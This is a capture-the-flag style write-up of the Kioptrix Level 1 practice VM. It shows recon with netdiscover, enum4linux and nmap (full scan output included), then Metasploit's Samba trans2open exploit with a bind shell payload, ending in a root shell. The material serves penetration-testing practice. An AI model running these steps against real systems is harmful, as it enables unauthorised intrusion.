 # Kioptrix-Level-1

Kioptrix - 1

Name – Aritrya Paul 

My Setup : 
1) A VMware virtual machine running kali linux
2) Another VM running Kioptrix
3) Both has NAT type Network Adapter

**STEP 1** - First to check the hosts running on our IP address with the shell command : 
            
            netdiscover

![netdiscover](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/34acb7c8-6efd-44bd-9561-acd384fb4b99)

So, the IP of the host is **192.168.13.131** . 
To check it we can type the command : **enum4linux 192.168.13.131** which shows the information about the target.

![enum4linux](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/06d7cd18-05bd-40cc-ac60-3c3ee9f1b616)

**STEP 2** - I have used Nmap to run a fast/aggression scan over the network. To do so I have used the command : 

        nmap -sS -A 192.168.13.131

![nmap](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/b0a57d33-3e35-41d7-aa30-7fa7605fd588)

*-sS is for TCP SYN scan <br>
*-A Decets OS and Services

I have done a bit more recon and enumeration this time. So, I have done a more thorough scan. So, I have used the command : 

      nmap -p- -T4 -A -O -v 192.168.13.131

**The output of the above scan** : 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 14:07 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating ARP Ping Scan at 14:07
Scanning 192.168.13.131 [1 port]
Completed ARP Ping Scan at 14:07, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:07
Completed Parallel DNS resolution of 1 host. at 14:07, 0.02s elapsed
Initiating SYN Stealth Scan at 14:07
Scanning 192.168.13.131 [65535 ports]
Discovered open port 139/tcp on 192.168.13.131
Discovered open port 80/tcp on 192.168.13.131
Discovered open port 22/tcp on 192.168.13.131
Discovered open port 443/tcp on 192.168.13.131
Discovered open port 111/tcp on 192.168.13.131
Discovered open port 1024/tcp on 192.168.13.131
Completed SYN Stealth Scan at 14:07, 7.64s elapsed (65535 total ports)
Initiating Service scan at 14:07
Scanning 6 services on 192.168.13.131
Completed Service scan at 14:07, 11.03s elapsed (6 services on 1 host)
Initiating OS detection (try #1) against 192.168.13.131
NSE: Script scanning 192.168.13.131.
Initiating NSE at 14:07
Completed NSE at 14:08, 10.51s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.10s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Nmap scan report for 192.168.13.131
Host is up (0.00097s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-09-28T08:39:54+00:00; +1m52s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| http-methods: 
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:2E:A7:98 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.036 days (since Thu Sep 28 13:15:35 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 1m51s

TRACEROUTE
HOP RTT     ADDRESS
1   0.97 ms 192.168.13.131

NSE: Script Post-scanning.
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.99 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)



Here, To start with HTTP/S. We have both the ports open. **Port 80** is for **http** and **port 443** for **https**. Other findings : 
1] Apache/1.3.20 (Unix)
2] mod_ssl/2.8.4
3] OpenSSL/0.9.6b

I have also got the **Samba port:139**.

I have also got **port 22: the SSH port**. Other findings : 
1] OpenSSH 2.9p2 (protocol 1.99)
2] Sshv1: Server support SSHv1

From the above output we can see that the process is running in netbios-ssn Samba but no exact version is described.


**STEP 3** - I have used searchsploit on openssh 2.9 and Apache 1.2.30 by the command : 

           searchsploit openssh 2.9

![searchsploit openssh](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/c2f51931-ab58-4c9f-839e-5e1db66208d1)

But there was many exploits but not in any specific version which is openssh 2.9 . So, this will not be the case.

Again, 

           Searchsploit Apache 1.3.20 

![searchsploit Apache](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/59640a9f-e530-476d-8fcf-cc35e311afd0)

Here, I found 2 exploits of version 1.3.20 but both are for windows. So, this will also not be the case because our target machine platform is linux based.

STEP 4 - By this I came to understand that our next exploitation will be on Samba. For this I have used Metasploit Framework. To access Metasploit in Kali Linux type :

             msfconsole
STEP 5 - Now, to see the available modules in metasploit of Samba by the command : 

             search samba 

![search samba](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/ede8a97d-2fec-4a79-882e-e2ee0e51341c)

I have used **exploit/linux/samba/trans2open** module whose rank is excellent. By typing **info** I get to know that the module requires only **RHOSTS** and **RPORT**.

I set the RHOSTS to 192.168.13.131 and the RPORT to 139 which is for the target TCP port and finally to exploit.

Next, I set the PAYLOAD to handle the session by the command : 

     set payload linux/x86/shell_bind_tcp 

By this I got access to the command shell of the target machine.

![exploit](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/2e7d8d49-fb7c-45db-bbeb-c79201a37f76)

Here, I typed **whoami** to know the root and **/bin/bash -i** to get the terminal of the kioptrix.










                                   








